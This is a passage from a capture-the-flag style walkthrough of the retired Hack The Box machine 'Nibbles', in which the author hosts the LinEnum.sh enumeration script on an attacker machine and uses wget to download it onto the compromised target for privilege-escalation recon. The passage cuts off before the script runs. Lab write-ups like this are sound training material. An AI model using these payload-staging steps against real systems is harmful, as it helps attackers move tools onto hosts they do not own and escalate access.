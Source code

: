 It's a lot of info to parse; we can do a deep dive later, but for now a quick scan doesn't
 show anything popping out as useful. We can come back to that and continue with our recon.

### LinEnum.sh

With our foothold secured and our home directory searched, we could continue to dig through
 every little nook and cranny to find something useful... but that would take a long time.
 It's a good point to start bringing in some automated tools to help speed things up. A
 tool that HTB has recently highlighted in our modules is `LinEnum.sh`; this performs an
 automated checks to look for common potential means on the system that might allow us to
 escalate to `root`.

> It's important that we take the time to understand what these automated tools are doing.
 Simply loading a bunch of random tools we find and running them, hoping that one will work,
 doesn't give us the insight we need to access highly-strengthened boxes, nor does it give
 us the insight necessary to inform our customers _what_ and _why_ they need to fix on their
 systems. Taking the time to understand these tools - and even write or perform their
 functions ourselves - is a crucial aspect of what separates a penetration tester from a
 mere [script kiddie](https://en.wikipedia.org/wiki/Script_kiddie).
{: .prompt-warning }

Often in scenarios like this, targets won't allow us to download a malicius script directly
 from its repository, or might not even allow general internet access. We need a way to
 get around this. Since our machine is able to connect to the target, we know that we can
 transfer data between the two; an easy solution then is to setup an `http` server on our
 machine and use that to download our scripts to the target. Python has a really easy
 method for doing this:

```terminal
┌──(zero㉿KALI)-[~]
└─$ sudo python3 -m http.server 8080
[sudo] password for zero:

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Back on the target, we use `wget` to pull the script down:

```terminal
nibbler@Nibbles:/home/nibbler/personal/stuff$ wget http://10.10.14.241:8080/LinEnum.sh
--2025-04-21 18:26:34--  http://10.10.14.241:8080/LinEnum.sh
Connecting to 10.10.14.241:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: 'LinEnum.sh'

LinEnum.sh                     100%[==================================================>]  45.54K  --.-KB/s    in 0.1s

2025-04-21 18:26:34 (366 KB/s) - 'LinEnum.sh' saved [46631/46631]
```

The `200` code (and the progress bar) shows that we successfully downloaded the script!
 Next we make the script runnable:


[^nibbles]: Nibbles is a retired machine, which means it has publicly available walkthroughs
[^wsl2]: Open a Powershell window (running as admin) and create a port proxy
[^habits]: There are some red team exercises where you want to gain access as quickly as
[^bak]: Notice that the first command here creates a backup of the `monitor.sh` script. We
[^sudo]: Notice that we have to specify the full path. When trying to use the relative path,